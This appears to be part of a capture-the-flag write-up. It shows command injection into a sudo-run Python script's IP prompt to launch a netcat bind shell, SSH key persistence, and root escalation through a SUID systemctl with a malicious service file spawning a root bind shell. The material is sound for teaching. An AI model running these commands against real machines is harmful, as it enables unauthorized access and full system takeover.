 We setup a simple bind shell as `/tmp/mal.sh`:

```
nc -lvp 5555 -e /bin/bash
```

```
 $ sudo -u pepper python ./simpler.py -p
 	Enter an IP: $(/tmp/mal.sh)
	<hangs>
```

Now we can connect to port 5555 and login as pepper, giving us our user flag. 

Next, I added my ssh key to `~/.ssh/authorized_keys` to give me a proper SSH session, meaning editors, etc will work.

We've already looked through the processes before so it's unlikely to help us, we can look for SID bits though:

```
 $ find / -perm -4000 -print 2> /dev/null
	/bin/fusermount
	/bin/mount
	/bin/ping
	/bin/systemctl
	/bin/umount
	/bin/su
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/gpasswd
	/usr/bin/chsh
	/usr/bin/sudo
	/usr/bin/chfn
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The only odd one we see here is systemctl. This is used to control the systemd init system, which handles starting almost everything on the system, including managing long-running daemons.
Giving it an SUID bit means that anyone can control all parts of the init system. This gives us an easy path to root: We make a .service file that gives us a shell, then link it and ask systemctl to run it as a system process, ie as root:

```
 $ cat mal.service
 	[Service]
	ExecStart=/bin/bash -c "nc -lvp 6666 -e /bin/bash"
 $ systemctl link /home/pepper/mal.service
	Created symlink /etc/systemd/system/mal.service → /home/pepper/mal.service.
 $ systemctl start mal.service
```

We now have a root shell and can read the flag!
